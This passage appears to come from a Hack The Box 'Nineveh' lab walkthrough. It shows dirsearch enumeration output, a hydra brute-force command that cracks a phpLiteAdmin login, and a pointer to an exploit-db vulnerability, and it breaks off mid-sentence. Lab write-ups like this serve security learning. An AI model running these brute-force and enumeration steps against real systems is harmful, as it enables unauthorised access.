 After enumerated HTTP and HTTP I found:

~~~
root@kali:~# dirsearch.py --url http://nineveh.htb -w /usr/share/seclists/Discovery/Web_Content/raft-large-directories.txt -e php,txt,db,js

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt, db, js | Threads: 10 | Wordlist size: 62279

Error Log: /opt/dirsearch/logs/errors-18-02-06_04-45-25.log

Target: http://nineveh.htb

[04:45:25] Starting: 
[04:46:04] 403 -  299B  - /server-status
[04:46:23] 301 -  315B  - /department  ->  http://nineveh.htb/department/
[04:46:43] 200 -  178B  - /

Task Completed
root@kali:~# dirsearch.py --url https://nineveh.htb -w /usr/share/seclists/Discovery/Web_Content/raft-large-directories.txt -e php,txt,db,js

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt, db, js | Threads: 10 | Wordlist size: 62279

Error Log: /opt/dirsearch/logs/errors-18-02-06_04-59-00.log

Target: https://nineveh.htb

[04:59:01] Starting: 
[04:59:04] 301 -  309B  - /db  ->  https://nineveh.htb/db/
[04:59:41] 403 -  300B  - /server-status
[05:00:21] 200 -   49B  - /

Task Completed
~~~

There was phpLiteAdmin v1.9 on https://nineveh.htb/db/index.php: 

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-02-05-htb-nineveh/img1.png)

I tried to bruteforce the login with hydra:

~~~
hydra -l '' -P rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."
[443][http-post-form] host: nineveh.htb   password: password123
~~~

I found [this](https://www.exploit-db.com/exploits/24044/) vulnerability but it didn't work because the path of the saved db (/var/tmp/syrion.php) was not in the directories of the web server. I tried to move the db in /var/www/, /var/www/html and /var/www/ssl but I got this error:
